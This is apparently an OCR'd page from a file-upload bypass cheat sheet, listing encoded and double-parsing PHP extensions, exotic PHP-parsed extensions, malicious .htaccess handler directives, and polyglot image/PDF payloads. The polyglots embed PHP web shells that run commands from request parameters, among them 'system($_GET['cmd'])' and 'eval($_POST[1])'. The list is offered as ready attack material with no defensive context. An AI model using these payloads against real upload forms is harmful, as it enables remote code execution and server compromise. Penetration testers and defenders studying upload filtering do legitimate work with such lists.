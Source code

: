 
## 7️⃣ Encoded Extensions (5)
%2Ephp  
%252Ephp  
.p%68p  
.p\u0068p  
.php%2E.jpg  
**MIME-Type Related:** application/x-httpd-php, image/jpeg

---

## 8️⃣ Apache / Nginx Double Parsing (5)
.php/.jpg  
.php%00.jpg  
.php%20.jpg  
.php;jpg  
.php..jpg  
**MIME-Type Related:** application/x-httpd-php, image/jpeg

---

## 9️⃣ Exotic Extensions Parsed as PHP (5)
.sphp  
.php-s  
.phar  
.suspected  
.module  
**MIME-Type Related:** application/x-httpd-php, application/x-php

---

## 🔟 Dangerous .htaccess Uploads (5)
.htaccess  
AddType application/x-httpd-php .jpg  
AddHandler application/x-httpd-php .gif  
AddType application/x-httpd-php .png  
AddHandler application/x-httpd-php .txt  
**MIME-Type Related:** text/plain, application/x-httpd-php

---

## 1️⃣1️⃣ Polyglot Payloads (5)
GIF89a;<?php system($_GET['cmd']); ?>  
FFD8FF...<?php echo "JPEG+PHP"; ?>  
PNG....IEND<?php phpinfo(); ?>  
PDF%0A<?php eval($_POST[1]); ?>  
<?php echo 'EXIF Injection'; ?>  
**MIME-Type Related:** image/gif, image/jpeg, image/png, application/pdf, application/x-httpd-php

---